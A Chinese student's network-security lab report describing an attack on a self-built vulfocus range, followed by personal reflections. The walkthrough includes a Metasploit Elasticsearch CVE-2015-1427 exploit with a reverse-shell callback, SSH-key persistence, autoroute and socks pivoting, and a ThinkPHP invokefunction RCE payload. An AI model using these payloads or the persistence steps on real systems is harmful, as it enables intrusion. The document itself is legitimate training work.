


## 搭建环境
1. 在kali victim中启用上次实验所启用的vulfocus并拉取这个漏洞的镜像
```bash
docker pull vulfocus/redis-cve_2022_0543:latest
docker pull vulfocus/elasticsearch-cve_2015_1427:latest
docker pull vulfocus/thinkphp-cve_2018_1002015:latest
docker pull vulfocus/jenkins-cve_2019_1003000:latest
```
- 并在vulfocus的页面中导入本地镜像


2. 在环境编排处搭建环境


3. 编排时的心路历程
**每一层的漏洞计划都可以远程操作实现漏洞利用，在迷惑网卡内网中，我使用了thinkphp漏洞，在同一层中，我使用了redis漏洞去模拟一个真实的双网卡双容器的环境，而redis中也只有一个容器是可以联通下一层的，也就是说攻击者需要更加细致的搜索和攻击才能访问到真实的内网，而且迷惑网卡开放的端口是80，更加难以排查，在信息收集阶段增大了攻击者的难度**
4. 将这个环境编排后启用**场景**


## 入口靶标和验证与攻破
1. 我们访问到了一个elasticsearch的页面,通过这个页面我们可以查看到一些敏感信息，比如时间，版本，引擎


2. 这几个敏感信息我们可以通过一些漏洞进行利用，查阅后发现了上述的**cve-2015-1427**漏洞
3. 对这个镜像进行漏洞利用性检测
- 首先根据信息，在确定连通性的情况下，可以创建一个```数学公式```的负荷，这是一个groovy脚本,如果输出了我们验证的数学公式，则表示漏洞存在
```bash
curl -XPOST “http://192.168.70.4:<port>/_search?pretty" -d '{
"script_fiedls":{
    "test":{
        "script":"2+3"
        }
    }
}'
```


**我们发现是超时了，并没有验证成功漏洞的存在性，但是也没有显示```groovy disabled```,所以并不能确定这个漏洞是否存在**

根据和```安靖```老师的探讨，我们发现只要输入一个攻击负荷，这个漏洞很快就验证成功了
```bash
curl -X POST "http://<ip>:<port>/website/blog/" -d '{"name":"test"}' #攻击负荷
```

**原因分析**:
之前验证的逻辑是
发送测试脚本：S_test = "2+3"

检查响应：若 R 包含 "test": [5] → 漏洞存在

逻辑表达式：f(S_test) == R_expected

最初验证失败的原因是：空数据库导致查询结果集为空，使脚本执行被跳过（hits.total=0 → 不执行 script_fields）

而这条脚本完成了关键步骤：

graph LR
 A[创建索引/文档] --> B[构建有效查询环境]
 B --> C[激活脚本执行]

**具体原理**：
创建存储结构：
```/website/blog/``` 创建了：
索引(Index): ```website```
类型(Type): ```blog```
```{"name":"test"}``` 插入一条文档(Document)
在文档添加完后，自然的会生成索引。
```
满足存在量词 ∃
通过创建文档，使 ∃ Doc 成立

打破执行约束
空数据库时：∀ Doc, Doc ∉ Database ⇒ Search(Doc) = ∅
插入后：∃ Doc, Doc ∈ Database ⇒ Search(Doc) ≠ ∅
```

4. **在验证成功后，开始进行漏洞利用**
- 使用工具：metasploit
- 漏洞利用步骤：
    1. 初始化metasploit并启用   
    ```bash
    sudo msfdb init
    msfconsole
    db_status # 查看数据库状态
    workspace -a anjing #创建工作空间
    ```
    2. 开始进行漏洞利用
    ```bash
    #信息收集
    db_nmap -p <port> 192.168.70.4 -n -A
    # 查看可用的exploit
    search elasticsearch type:exploit
    # 2015年的漏洞
    use 1
    ```
    
    
    ```ruby
    #  设置参数
    show options
    set RHOSTS 192.168.70.4
    set RPORT <映射端口，每次不一样>
    set LHOST 192.168.70.7
    show payloads
    set payload <random>
    #  利用漏洞
    exploit
    ```
    
    
    3. 拿到shell之后就可以进行flag的获取
    ```shell
    ls /tmp
    ```
    获取后提交到场景中就可以拿分了
    
## 基于第一层靶标发现内网容器与靶标
1. 入口靶标的打击在实验中拿到的shell是不一定的，所以我们每次在metasploit中对需不需要进行升级shell有一定的取舍
```ruby
# 如果拿到的是普通shell
sessions -u 1 #升级拿到的shell
# 升级后的shell是meterpreter,在这个实验中可能会退出，所以可以进行持久化处理
metepreter> run post/linux/manage/sshkey_persistence
```
2. 对meterpreter容器进行网络扫描和信息收集
```ruby
meterpreter> route
meterpreter> ipconfig
```


**可以看到除了自身的ip之外，还有另外两个网卡和路由存在，所以我们可以判断这个网络是存在另外两个内网的**
```ruby
# 设置路由代理
meterpreter> run autoroute -s 192.168.100.0/24
meterpreter> run  autoroute -s 192.168.85.0/24
meterpreter> run autoroute -p # 查看路由
meterpreter> background
# 对特定的网段进行端口扫描
msf6> use  auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 192.168.100.2-254
msf6> set PORTS 80 #通常的http端口
msf6> set THREADS 10
msf6> run
msf6> hosts #查看存活主机
```


**确定了主机的存活和端口的开放，接下来就是进行漏洞利用了**

3. **socks代理**
先测试网络联通性是否正常
```shell
# 在刚刚拿到的第一个终端中
meterpreter > shell
curl  http://192.168.100.2
curl  http://192.168.100.3
```

测试网络联通性正常，接下来进行socks代理
```ruby 
msf6> search socks
msf6> use auxiliary/server/socks_proxy
msf6> run
```
因为在上次的实验中,已经将socks5的规则写入终端了，所以这里不再重复
```bash
sudo lsof -i:1080 #  查看1080端口
proxy chain curl -I 192.168.100.2 # 测试socks代理
```


**这里收集到了极其重要的信息，```5.1.30版本的thinkphp```漏洞,使用的php/7.2.12版本**
可以直接搜索到这个漏洞的[漏洞报告](https://paper.seebug.org/760/)

4. **漏洞利用**
首先直接在metasploit中搜索thinkphp漏洞
```ruby
search thinkphp
use exploit/unix/webapp/thinkphp_rce
show payloads
set payload <>
set RHOSTS 192.168.100.2
set RPORT 80
```

**但是在利用时，一直报错为无法解析thinkphp的版本，因此我很难利用这个exploit直接使用漏洞,而且从上帝视角中,我知道这个是迷惑内网，因此我只需要拿到我的flag就可以，因此我直接使用一个现成的poc利用了漏洞**
将poc在浏览器中访问输入:
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```


用相同的方式访问拿到另一个容器的flag,**这之后通过小组成员的攻破了所有的靶标，拿到了所有的flag**



# 王越-202212063074-网络安全实践个人心得体会
## 1. 关于环境搭建
* 本次实验所用的都是vulfocus的漏洞环境，这是一个集成了极多漏洞靶场的环境，对网安领域和漏洞挖掘的学习非常友好。其搭载的redis服务支持了在web页面进行直接的docker拉取和启用，还支持了多层网络环境的搭建，无疑是在当前阶段中最方便的一种方式。
* 在vulfocus搭建的时候，我直接使用了黄玮老师仓库中的脚本进行一站式搭建，同时也遇到了一些问题
  - 1. 因为docker-compose本身存在但是依旧存在报错的原因，我在第一个靶机上直接安装了docker-compose，后来在上课过程中体会到这个dockers-compose也完全不需要安装，只是因为在安装的时候是直接使用了docker.io 安装的，所以导致docker-compose无法使用，所以最后在第二个靶机上安装docker-compose，并成功运行了
  - 2. 在进行DMZ实验时，出现了场景启用失败的错误，在**同学的汇报**知道了，场景启用失败很可能是*docker版本*原因，恰好需要解决docker-compose的问题，所以在第二个靶机中，我将之前的docker卸载并安装了docker-ce一并解决了上述两个问题。
  - 3. 搭建DMZ靶场时，出现了第二层内网即weblogic的无法启用的情况。在咨询了同学后，将老师在课上提供的脚本写进了```/etc/docker/daemon.json```文件，并重启docker服务，进行修改，并成功解决。

## 2. 关于实验部分
* 第一个DMZ的靶场，红队的部分因为有老师视频的指导，所以操作起来并没有那么复杂，也没有对漏洞的原理进行解析。同时我承担了一部分蓝队的责任，对漏洞利用进行了检测，使用了对于抓取的攻击流量包进行wireshark进行解析。但是因为在答辩时，认识到了**自动化检测的重要性，以及红蓝对抗的不对称性，蓝队所做的应该是预防检测和防御，而且尽量做到先预防，再检测，再防御，而不是像本次实验中的那样有目的性的进行分析与抓包，这不符合正常生成环境的逻辑。**
* 在第二次进阶实验中，在对入口靶标的**漏洞存在性检验**时，出现了无法进行检测到漏洞存在的问题，通过与**安靖**老师的讨论，最终得到解决。
* 第二次进阶实验，由于是自己搭建的靶场，我需要对每个漏洞进行测试和搭建，最后我认为虽然搭建的漏洞在技术层面较为简单，但都是较为经典和存在踩坑风险的漏洞容器。作为第二次实验的```红队```，在攻击时养成了**信息收集，攻击测试，漏洞利用**的模式，使得攻击的目的性和速度大大提升。采用多种方式的攻击和shell时不时的崩溃让我意识到在攻击的过程中是一个循序渐进的过程，而不是一次完成。深刻理解了**上层不通，下层不可能通**的至理名言，对计算机系统中的流量和连接有更加深刻的理解。

## 3. 关于团队协作部分
* 本组的实验进展一直都较为慢，甚至存在下午汇报，当天凌晨依旧没有完成实验和报告的情况，究其原因
* 1. 团队成员的协作能力不够。没有 proper way to work，且存在“各做各的，没有分工”的情况，在汇报前两天才将各自的工作总和在一起，这导致了信息交流的阻碍以及个人工作的激增，就以我举例，在没有明确团队分工的情况下，我对第二次的靶场进行了初步的攻击，但是攻击到第三层内网时就遇到了难以攻击的问题，而我的解决方法是埋头自己解决，全然忘记了团队协作的重要性，这一点无论在学习生活环境还是工作环境中都极其影响工作效率。
* 2. 时间管理问题。课上的时间存在“摸鱼”“摆烂”的状况，且平常安排实验的时间也不足以能完美地完成这两次实验，在大学中，我一直认为这是一个能够养成但是极其考验个人地技能，直到今天我也依旧没有掌握这个时间这个关键的学习因素，因此学无止境。
